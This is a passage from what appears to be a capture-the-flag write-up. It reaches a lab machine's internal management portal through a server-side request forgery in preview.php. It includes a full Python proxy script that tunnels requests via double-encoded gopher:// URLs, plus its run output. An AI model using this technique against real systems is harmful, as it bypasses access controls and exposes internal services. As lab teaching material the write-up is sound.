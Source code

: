 Along with the credentials, we also see a message stating that the API is under maintenance and we should use the library portal. Returning to the library application on port 80, it seems the portal mentioned is at `/management/`. However, as we saw earlier, trying to access it resulted in an **Access denied** message.

![Web 80 Management](web_80_management.webp){: width="1200" height="600"}

However, we can try accessing it internally via our make-shift proxy by changing the `PORT_TO_PROXY` from `10000` to `80`, instead of accessing it directly, as follows:

```py
#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "10.10.82.71"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 80

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()
    print(f"Listening on {LHOST}:{LPORT}, proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} via {TARGET_HOST}...")
    while True:
        conn, addr = s.accept()
        client_thread = threading.Thread(target=handle_client, args=(conn, addr), daemon=True)
        client_thread.start()

```
{: file="proxy.py" }

Once again, running our proxy.

```console
$ python3 proxy.py
Listening on 127.0.0.1:5000, proxying to 127.0.0.1:80 via 10.10.82.71...
```

Now, making a request to `http://127.0.0.1:5000/management/`, we can see that we are able to access `http://127.0.0.1:80/management/` and get a login form.
